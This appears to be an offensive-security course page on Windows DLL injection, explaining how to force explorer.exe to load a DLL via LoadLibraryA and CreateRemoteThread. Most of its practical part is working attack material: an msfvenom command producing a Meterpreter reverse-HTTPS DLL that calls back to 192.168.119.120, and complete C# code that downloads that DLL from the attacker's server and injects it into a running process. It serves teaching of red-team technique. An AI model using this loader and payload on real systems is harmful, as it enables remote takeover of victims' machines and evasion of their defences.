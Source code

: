 :orphan:
(dll-injection)=

# DLL Injection

We were able to run arbitrary shellcode by using process injection to inject it into a remote process.
This worked great for shellcode, but we might like to inject a full DLL into a remote process rather than simply shellcode for larger codebases or DLLs that have already been created.

## DLL Injection Theory

A process uses the LoadLibrary256 API to load a DLL's API into virtual memory when it wants to use it. In our situation, we want the remote process to use Win32 APIs to load our DLL. We must use a few methods to compel a process like explorer.exe to load our DLL because LoadLibrary can't be called on a remote process. The name of the DLL to load (lpLibFileName) is the only input required by the LoadLibrary method.

```cpp
HMODULE LoadLibraryA(
 LPCSTR lpLibFileName
);
```

> There are often two variations of Win32 APIs, each ending in "A" or "W." It would be LoadLibraryA or LoadLibraryW in this case and specifies whether any string parameters should be given in ASCII ("A") or Unicode ("W") but otherwise denote the same functionality.

We'll use deception to persuade the remote process to call LoadLibrary with the appropriate argument. Recall that the start location of the function that runs in the new thread is sent as the fourth argument when executing `CreateRemoteThread`, and the memory address of a buffer holding the arguments for that function is passed as the fifth argument.

The goal is to locate `LoadLibraryA`'s internal address and call it while providing the name of the DLL we wish to load. When calling `CreateRemoteThread`, if the address of `LoadLibraryA` is provided as the fourth argument, it will be called.

We must allocate a buffer inside the remote process and copy the name and path of the DLL into it in order to provide the name of the DLL to `LoadLibraryA`. The address of this buffer can then be sent to CreateRemoteThread as the fifth argument, where it will then be utilized with `LoadLibrary`.

There are a few limitations, nevertheless, that we must take into account. The DLL must initially be unmanaged and written in C or C++. Because a managed DLL cannot be loaded into an unmanaged process, the managed C#-based DLL that we have been working with thus far will not function.

Second, DLLs typically have APIs that are used once the DLL has been loaded. An application would need to use GetProcAddress to "resolve" the names of these APIs to the memory addresses before calling them. GetProcAddress is unable to resolve an API in a remote process, so we must use non-standard techniques to create our malicious DLL.

Let's talk about this strategy for a bit. LoadLibrary calls the DllMain258 function, which initializes variables and indicates that the DLL is prepared for use, as part of its functionality.

```cpp 
BOOL WINAPI DllMain(
 _In_ HINSTANCE hinstDLL,
 _In_ DWORD fdwReason,
 _In_ LPVOID lpvReserved
);
```
Depending on the reason code (fdwReason) argument that specifies the purpose of calling the DLL entry-point function, DllMain often executes several actions.
This is evident in the DllMain code that is not handled.

```cpp
BOOL APIENTRY DllMain( HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
 switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    break;
    }
    return TRUE;
}
```

The `DLL_PROCESS_ATTACH` reason code is sent to `DllMain` when the DLL is being loaded into the virtual memory address space as a result of a call to `LoadLibrary`, as indicated in the MSDN documentation. As a result, we must define our shellcode as a custom API provided by.

In the `DLL_PROCESS_ATTACH` switch case of our malicious DLL, we could insert our shellcode, which would then be run when `LoadLibrary` called `DllMain`.
For this method to work, we must either create and compile a unique unmanaged DLL in C or C++ that will run shellcode when the DllMain function is called, or we must utilize a framework to produce one.

Since programming in C and C++ is outside the purview of this module, in the next section, we'll make use of the latter method and the aforementioned method to create a Meterpreter DLL with msfvenom.

## DLL Injection with C#

Let's start by using msfvenom to create our DLL and storing the file to our site root:

```bash
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https
LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```

We will build a new C#.NET Standard Console application to carry out the DLL injection technique, which will fetch our DLL from the web server of the attacker. As LoadLibrary only takes files that are physically existent on disk, we will next write the DLL to disk.

```csharp
using System.Net;
//...
String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";
WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
```
Next, we’ll resolve the process ID of explorer.exe and pass it to OpenProcess

```cs
Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
```
The following step involves using `VirtualAllocEx` to allocate memory that is both readable and written in the remote process, then `WriteProcessMemory` to copy the location and name of the DLL into it.

```cs
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x4);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName),
dllName.Length, out outSize);
```

The memory address of `LoadLibrayA` inside the remote process will then be found. Fortunately, the majority of native Windows DLLs are allocated at the same base address across processes, therefore LoadLibraryA's address in our current process and the remote process will match.

We'll resolve it using `GetModuleHandle` and `GetProcAddress`, find its address, and then add the relevant DllImport statements:

```cs
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
```
Invoking CreateRemoteThread with both a starting address and an argument address is our last option.


```cs
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0,
IntPtr.Zero);
```

Our full DLL injection code is as follows:

```cs
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject {
 class Program {
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
    processId);
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
    dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
    byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
    lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
    dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
    SetLastError = true)]
    static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    static void Main(string[] args) {
        String dir =
        Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
        String dllName = dir + "\\met.dll";
        WebClient wc = new WebClient();
        wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
        Process[] expProc = Process.GetProcessesByName("explorer");
        int pid = expProc[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr,
        Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
        "LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
        addr, 0, IntPtr.Zero);
        }
    }
}
```

With Process Explorer, we can see every DLL that has been loaded into the processes. Selecting DLLs under View > Lower Pane View after choosing the explorer.exe process is the next step. As expected, we locate `met.dll` by scrolling down.

<img src="dll-injection/2022-12-21_06-32.png">

We are able to load an unmanaged DLL into a remote process by repurposing the process injection techniques. Unfortunately, using this method does write the DLL to the hard drive. We'll address this problem in the blog posts (at the library) after this.

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::